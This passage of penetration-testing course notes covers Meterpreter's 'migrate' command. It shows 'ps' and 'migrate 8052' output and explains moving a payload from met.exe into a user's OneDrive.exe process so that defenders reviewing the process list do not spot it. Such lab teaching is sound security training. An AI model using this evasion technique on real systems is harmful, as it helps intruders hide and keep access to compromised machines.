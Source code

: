 Another important post-exploitation feature is _migrate_
+ When we compromise a host, our Meterpreter payload is executed inside the process of the application we attack or execute our payload
+ If the victim closes that process, our access to the machine is closed as well
+ In addition, depending on how the Windows binary file containing the Meterpreter payload is named, the process name may be suspicious if a defender is searching through the process list
+ We can use migrate to move the execution of our Meterpreter payload to a different process

Let's view all running processes by entering **`ps`** in the Meterpreter command prompt
```
meterpreter > ps

Process List
============

 PID   PPID  Name                         Arch  Session  User                          Path
 ---   ----  ----                         ----  -------  ----                          ----
 2552   8500  met.exe                      x64   0        ITWK01\luiza                  C:\Users\luiza\met.exe 
... 
 8052   4892  OneDrive.exe                 x64   1        ITWK01\offsec                 C:\Users\offsec\AppData\Local\Microsoft\OneDrive\OneDrive.exe
...
```
+ Above shows that the process _met.exe_ has the process ID 2552
+ The name and path will easily make the process stand out to a defender reviewing the process list
+ The output shows that _offsec_ started a process related to _OneDrive_ with process ID 8052
+ If our payload runs within this process, it is far less likely to be detected by reviewing the process list

We should note that we are only able to migrate into processes that execute at the same (or lower) integrity and privilege level than that of our current process
+ In the context of this example, we already elevated our privileges to NT AUTHORITY\SYSTEM so our choices are plentiful

Let's migrate our current process to _OneDrive.exe_ of the user _offsec_ by entering **migrate** and the process ID we want to migrate to:
+ Usage
```
migrate <ID>
```
+ Example:
```
meterpreter > migrate 8052
[*] Migrating from 2552 to 8052...
[*] Migration completed successfully.

meterpreter > ps


Process List
============

 PID   PPID  Name                         Arch  Session  User                Path
 ---   ----  ----                         ----  -------  ----                ----
...
 2440   668   svchost.exe
 2472   668   svchost.exe
 2496   668   svchost.exe
 2568   668   svchost.exe
 2624   668   spoolsv.exe
 2660   668   svchost.exe
 2784   668   svchost.exe
 2928   668   svchost.exe
...
```
